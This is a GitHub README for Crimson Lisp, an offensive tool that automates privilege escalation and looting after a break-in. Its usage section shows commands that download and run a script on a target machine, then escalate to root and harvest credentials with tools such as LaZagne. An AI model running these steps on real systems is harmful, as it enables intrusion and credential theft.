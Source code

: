 # Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```bash
git clone https://github.com/Karmaz95/crimson_lisp.git
```
# Usage
```bash
### ON THE HOST MACHINE
cd crimson_lisp
sudo python3 -m http.server 80

### ON THE TARGET MACHINE 
## 1. DOWNLOAD THE TOOLS
curl -s -k http://127.0.0.1/lisp.sh -o lisp.sh; chmod +x lisp.sh
./lisp.sh -u "http://127.0.0.1/"

## 2. ESCALATE THE PRIVILEGES
./lisp.sh -e

## 3. LOOT THE SYSTEM
sudo ./lisp.sh -l
```
# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/crimson-lisp-36d4891437d5)

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.

* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [pspy](https://github.com/DominicBreuker/pspy)
* [traitor](https://github.com/liamg/traitor)
* [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* [The LaZagne Project](https://github.com/AlessandroZ/LaZagne)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>